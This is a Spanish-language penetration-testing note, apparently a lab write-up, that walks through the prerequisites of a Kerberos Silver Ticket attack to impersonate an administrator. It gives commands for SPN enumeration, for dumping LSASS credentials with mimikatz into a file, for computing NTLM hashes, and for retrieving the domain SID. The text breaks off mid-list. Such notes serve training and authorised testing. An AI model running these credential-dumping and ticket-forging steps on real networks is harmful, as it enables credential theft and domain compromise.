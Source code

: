 Solución: Suplantar al usuario administrador con un Silver ticket gracias a que tenemos el ntlm hash de `svc_sql` (tenemos la contraseña, luego generar el hash no es problema)

### Información necesaria
Crea un **TGS (Ticket Granting Service) falso, sin necesidad de contactar con el DC** para un servicio específico en un servidor. Normalmente este tipo de ataque se realizará después de encontrar un hash de un servicio. 

Necesitamos lo siguiente

1. **Encontrar servicios SPN** 
	```bash
	 Get-DomainUser * -spn | select samaccountname, serviceprincipalname 
	```
2. **Hash NTLM del usuario que ejecuta el servicio en el servidor (como `HTTP`, `CIFS`, `MSSQLSvc`, etc.)** (`/rc4:<hash_rc4_servicio>`)
	```powershell
	.\mimikatz.exe privilege::debug sekurlsa::logonpasswords exit *> dumpLSASS.txt
	# Buscar el hash del servicio en dumpLSASS.txt
	# Si tenemos la contraseña en texto plano, supongamos Service1, podemos generar el hash buscando en internet: ntlm hash generator ó
	echo -n 'Service1' | iconv -f UTF-8 -t UTF-16LE | openssl dgst -md4
	```
3. **SID del dominio** (`/sid:S-1-5-21-XXXX`)
	```powershell
	Get-DomainSID
	# También podríamos del siguiente modo (sin tomar los últimos valores): 
	([System.Security.Principal.WindowsIdentity]::GetCurrent()).User.Value
	# O buscando el valor escribiendo... (sin tomar los últimos valores)
	whoami /user
	```
4. **Nombre del dominio**
	```powershell
	# Deberíamos conocerlo, pero podemos obtenerlo igualmente con:
	[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().Name
	```
5. **Nombre del servidor donde está el servicio**
	```powershell
	# Aparece en el SPN. Supongamos servicio iss_service
	 Get-DomainUser  -spn "*iis_*" | select  serviceprincipalname 
	# resultado
	{HTTP/web04.corp.com, HTTP/web04, HTTP/web04.corp.com:80}
	# En este caso el nombre del servidor sería web04.corp.com
	```
6. **Nombre del servicio en SPN (Ejemplo: `HTTP`, `CIFS`, `MSSQLSvc`)** (`/service:http`)
	```powershell